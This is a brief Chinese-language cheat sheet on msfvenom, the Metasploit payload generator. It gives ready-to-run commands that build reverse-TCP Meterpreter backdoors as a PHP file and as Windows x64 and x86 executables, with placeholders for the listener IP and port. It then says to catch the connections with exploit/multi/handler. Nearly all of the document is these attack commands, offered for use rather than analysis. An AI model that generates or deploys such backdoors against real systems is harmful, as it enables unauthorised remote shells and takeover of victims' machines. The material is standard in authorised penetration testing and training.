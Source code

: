 ### 介绍

msfvenom是metasploit框架下的一个工具，专门用来生成各种类型的恶意载荷，编码和有效负荷



### 基本用法



#### 生成php后门

```
msfvenom -p php/meterpreter/reverse_tcp lhost=<监听的ip> lport=<端口> -f raw -o <filename>.php
```







#### 生成win x64架构的exe文件

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<监听的ip> lport=<端口> -f exe -o <filename>.exe
```







#### 生成win x32架构的exe文件

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<监听的ip> lport=<端口> -f exe -o <filename>.exe
```





#### 使用方法



配合msfconsole中的

exploit/multi/handler使用